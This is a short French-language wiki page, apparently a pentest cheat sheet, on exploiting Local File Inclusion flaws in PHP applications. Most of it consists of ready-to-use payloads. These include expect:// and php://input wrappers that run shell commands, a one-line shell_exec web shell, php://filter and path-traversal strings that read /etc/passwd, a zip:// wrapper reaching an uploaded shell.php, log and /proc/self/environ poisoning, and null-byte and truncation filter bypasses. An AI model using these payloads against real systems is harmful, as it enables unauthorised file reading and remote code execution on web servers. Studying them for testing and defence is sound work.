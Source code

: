```yaml
---
title: Local File Include
permalink: /Local_File_Include/
---
```


Une faille de type Local File Include (LFI) consiste à inclure un fichier local à partir d'une entrée utilisateur. Dans certains cas ceci permet d'accéder à des fichiers non situés dans le webroot voire d'executer du code.

PHP
---

### PHP Wrappers

Il y a plusieurs "Wrappers" en PHP qui peuvent être utilisés pour exploiter des LFI.

-   PHP expect wrapper (désactivé par défaut):

``` text
target.php?page=expect://ls
```

-   PHP input wrapper:

``` text
POST /target.php?page=php:/input&cmd=ls
[..]
Content-Length: 44

<?php echo shell_exec($_GET['cmd']);?>
```

-   PHP php://filter (permet d'inclure un fichier et l'encoder en base64. Ceci permet de lire du code PHP:

``` text
vuln.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
```

-   PHP php://filter sans base64:

``` text
vuln.php?page=php://filter/resource=/etc/passwd
```

-   PHP ZIP Wrapper LFI (à condition d'avoir uploadé un zip contenant le payload). Le zip sera décompressé dans shell.php:

``` text
vuln.php?page=zip://path/to/file.zip%23shell.php
```

### Divers

Il est possible d'inclure certains fichiers qui peuvent contenir des entrées utilisateurs si on veut executer du code (ex: User-Agent, etc.):

-   /proc/self/environ
-   Logs Apache
-   Emails (on peut essayer d'énumerer les utilisateurs locaux avec VRFY)

Technique du Null byte (ne fonctionne pas sur les versions récentes de PHP:

``` text
vuln.php?page=/etc/passwd%00
vuln.php?page=/etc/passwd%2500
```

L'injection de loooongues valeurs peut permettre de bypasser certains filtres si on a des truncate:

``` text
vuln.php?page=/etc/passwd.................................................................................
vuln.php?page=../../../../../../../../../../../../../../../../../../../../etc/passwd
vuln.php?page=/etc/passwd/../../../../../../../../../../../../../../../../../../../..
```

[Category:Web](/Category:Web "wikilink") [Category:Exploitation](/Category:Exploitation "wikilink")
